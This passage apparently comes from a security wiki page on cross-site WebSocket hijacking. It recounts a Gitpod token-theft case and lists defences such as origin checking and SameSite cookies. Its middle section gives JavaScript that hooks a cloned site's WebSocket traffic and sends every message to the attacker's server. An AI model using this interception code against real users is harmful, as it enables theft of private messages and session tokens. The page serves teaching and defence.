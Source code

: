 ### Cross Origin + Cookie with a different subdomain

In this blog post [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) the attacker managed to **execute arbitrary Javascript in a subdomain** of the domain where the web socket communication was occurring. Because it was a **subdomain**, the **cookie** was being **sent**, and because the **Websocket didn't check the Origin properly**, it was possible to communicate with it and **steal tokens from it**.

### Stealing data from user

Copy the web application you want to impersonate (the .html files for example) and inside the script where the websocket communication is occurring add this code:

```javascript
//This is the script tag to load the websocket hooker
;<script src="wsHook.js"></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function (data, url) {
  var xhttp = new XMLHttpRequest()
  xhttp.open("GET", "client_msg?m=" + data, true)
  xhttp.send()
}
wsHook.after = function (messageEvent, url, wsObject) {
  var xhttp = new XMLHttpRequest()
  xhttp.open("GET", "server_msg?m=" + messageEvent.data, true)
  xhttp.send()
  return messageEvent
}
```

Now download the `wsHook.js` file from [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) and **save it inside the folder with the web files**.\
Exposing the web application and making a user connect to it you will be able to steal the sent and received messages via websocket:

```javascript
sudo python3 -m http.server 80
```

### CSWSH Protections

The CSWSH attack is based on the fact that an **user will connect to a malicious page** that will **open a websocket connection** to a web page where the user is already connected and will authenticate as him as the request will send the user's cookies.

Nowadays, it's very easy to prevent this issue:

- **Websocket server checking the origin**: The websocket server should always check from where a suer is connecting to prevent unexpected pages from connecting to it.
- **Authentication token**: Instead of basing the authentication on a cookie, the websocket connection could be based on a token that is generated by the server for the user unknown to the attacker (like an anti-CSRF token)
- **SameSite Cookie attribute**: Cookies with `SameSite` value as `Lax` or `Strict` won't be sent from an external attackers page to the victim server, therefore, cookie based authentication won't be successful. Note that Chrome now puts the value **`Lax`** to the cookies withuot this flag specfied maing this more secure by default. Although, the first 2 minutes a cookie is created it will have the value **`None`** making it vulnerable during that imited period of time (also it's expected that this meassure will be removed at some point).
- **Firefox Total Cookie Protection**: Total Cookie Protection works by isolating cookies to the site in which they are created. Essentially each site has its own cookie storage partition to prevent third parties linking a user’s browsing history together. This makes **CSWSH unusable** as the attackers site won't have access to the cookies.